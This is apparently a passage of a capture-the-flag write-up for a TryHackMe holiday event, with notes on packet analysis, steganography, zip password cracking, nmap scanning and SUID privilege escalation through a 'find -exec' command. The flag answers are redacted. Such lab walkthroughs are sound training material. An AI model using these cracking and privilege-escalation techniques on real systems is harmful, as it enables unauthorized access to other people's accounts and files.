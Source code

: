 	open file in wireshark and apply dns filter
	Spot which packet is querying a hex string subdomain of the holidaythief.com domain. 
	You can decode hex into ascii by echo hex string | xxd -r -p
	
	Candy Cane <redacted>

#### 2. What did Little Timmy want to be for Christmas?
	
	download the packet which is quering google.com
	extract hidden info from 'TryHackMe.jpg' using steghide extract -sf <path>
	subheading of is what we looking for
	
	<redacted>

#### 3. What was hidden within the file?
	
	crack the zip file using fcrackzip (download it using apt-get install fcrackzip)
	Enter the password (december) and concatenate Timmy file
	
	RFC <redacted>

## Day 7 : Skilling Up

	nmap -sC -sV -O <machine-ip>

#### 1. how many TCP ports under 1000 are open?

	<redacted>

#### 2. What is the name of the OS of the host?

	<redacted>ux

#### 3. What version of SSH is running?

	<redacted>.4

#### 4. What is the name of the file that is accessible on the server you found running?

	check web server running on port 999
	<redacted>.file

## Day 8 : SUID Shenanigans

	Username: holly
	Password: <redacted>

#### 1. What port is SSH running on?

	<redacted>34

#### 2. Find and run a file as igor. Read the file /home/igor/flag1.txt
	
	find / -user igor -perm -4000 -exec ls -ldb {} \;
	we see that find command is owned by igor but we can also run
	touch foo
	find foo -exec cat /home/igor/flag1.txt \;
